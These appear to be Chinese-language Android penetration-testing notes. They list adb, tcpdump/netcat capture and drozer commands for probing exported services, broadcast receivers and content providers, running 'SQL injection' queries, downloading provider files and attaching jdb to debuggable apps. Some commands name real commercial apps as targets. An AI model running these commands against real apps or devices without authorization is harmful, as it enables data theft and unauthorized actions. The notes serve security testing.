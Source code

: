 ### 保护用户的数据
### app间的保护(隔离和权限分离)
### 保护敏感信息的通信

## 4.2 收集logcat泄漏的信息

   $ adb logcat 

   Monkey test框架
   $ adb shell monkey -p [package] -v [event count]

## 4.3 检查网络流量
   
   抓包
   $ /data/tcpdump/tcpdump -i any -w - | /data/tcpdump/busybox nc -l -p 31337

   $ adb forward tcp:12345 tcp:31337 && nc 127.0.0.1 12345 | wireshark -k -S -i -

## 4.4 通过activity manager 被动嗅探intent

## 4.5 攻击service

   寻找导出的service
   $ run app.service.info --permission null

   运行导出的service
   $ run app.service.start --component com.taobao.taobao com.taobao.taobao.TaobaoIntentService --action com.taobao.taobao.intent.thirdPush.action.COMMAND

## 4.6 攻击broadcast receiver

   寻找导出的broadcast receiver
   $ run app.broadcast.info --permission null -a com.ziroom.ziroomcustomer

   运行导出的broadcast receiver
   $ run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.forgoats.broadcastreceivers.SendSMSNowReceiver -- extra string phoneNumber 123456 --extra string message PWNED

## 4.7 枚举有漏洞的content provider

   寻找导出的content provider(不需要任何读写权限的content provider)
   $ run app.provider.info --permission null 

   列出所有冠有主机名的content provider
   $ run app.provider.finduri com.weico.international

## 4.8 从有漏洞的content provider中提取数据

   提取数据(查询数据)
   $ run app.provider.query content://settings/secure 加个/

   下载路径里的文件
   $ run app.provider.download content:// /User/moonagirl/Desktop

## 4.9 向content provider插入数据

   列出数据结构
   $ run app.provider.columns [URI]

   插入数据
   $ run app.provider.insert [URI] [--boolean [name] [value]]  (--boolean --double --float --integer --long --string --short)

## 4.10 枚举有sql注入漏洞的content provider
   
   $ run app.provider.query [URI] --selection "1=1"

## 4.11 利用可调试的漏洞

   检查可调试的app
   $ run app.package.debuggable 

   运行
   $ run app.activity.start --component com.droider.debugjniso com.droider.debugjniso.MainActivity

   $ adb jdwp
   $ adb forward tcp:[本地端口] jdwp:[android设备上的端口]
   $ jdb -attach localhost:[PORT]

   jdb命令
   $ classes
   $ methods [class-path]
   $ fields [class name]

## 4.12 对app做中间人攻击






   